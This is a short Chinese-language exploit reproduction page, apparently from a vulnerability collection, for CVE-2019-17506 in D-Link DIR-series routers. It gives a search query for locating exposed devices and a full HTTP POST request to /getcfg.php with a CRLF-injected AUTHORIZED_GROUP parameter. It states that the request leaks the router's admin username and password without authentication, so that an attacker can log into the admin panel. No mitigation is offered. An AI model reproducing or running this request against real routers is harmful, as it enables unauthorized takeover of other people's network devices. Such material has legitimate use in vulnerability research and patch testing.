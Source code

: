 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506 

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

```
D-Link Dir 系列多个版本
```

## 网络测绘

```
app="D_Link-DIR-868L"
```

## 漏洞复现

登录页面如下

![](./images/202202162225738.png)

发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](./images/202202162226400.png)

获取到路由器账号密码即可登录后台
